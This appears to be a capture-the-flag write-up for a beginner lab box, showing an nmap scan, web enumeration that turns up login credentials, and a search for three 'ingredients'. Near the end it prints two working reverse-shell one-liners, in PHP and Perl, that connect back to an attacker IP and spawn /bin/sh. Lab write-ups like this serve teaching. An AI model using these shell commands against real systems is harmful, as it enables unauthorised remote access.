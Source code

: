 ## nmap

```sql
└─$ nmap -sC -sV -oN nmap 10.10.48.170
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 12:44 IST
Nmap scan report for 10.10.48.170
Host is up (0.14s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 69:45:03:22:0f:68:6a:d1:31:23:c2:b6:cf:02:62:5a (RSA)
|   256 cc:81:8d:8f:7e:7f:8d:b0:f2:c1:53:5e:6a:70:76:0f (ECDSA)
|_  256 34:da:89:95:ed:0d:b2:dc:1c:16:ce:dd:a8:2a:82:06 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.79 seconds
```

## web

![[Pasted image 20210607124832.png]]

page source 
![[Pasted image 20210607124859.png]]

![[Pasted image 20210607130008.png]]

robots.txt
![[Pasted image 20210607125235.png]]

but there is not dir with `Wubbalubbadubdub`

/login.php

![[Pasted image 20210607125414.png]]

login creds: `R1ckRul3s:Wubbalubbadubdub`

![[Pasted image 20210607125459.png]]

## 1st ingredient
`less Sup3rS3cretPickl3Ingred.txt`
![[Pasted image 20210607125554.png]]


## 2nd ingredient
lets get a reverse shell

this php shell does ping the box but closes itself
`php -r '$sock=fsockopen("10.17.4.208",9001);exec("/bin/sh -i <&3 >&3 2>&3");'`

![[Pasted image 20210607130441.png]]

same for bash 
but perl workerd


`perl -e 'use Socket;$i="10.17.4.208";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

![[Pasted image 20210607133427.png]]

2nd ingredient

![[Pasted image 20210607134454.png]]

3rd ingredient

![[Pasted image 20210607135035.png]]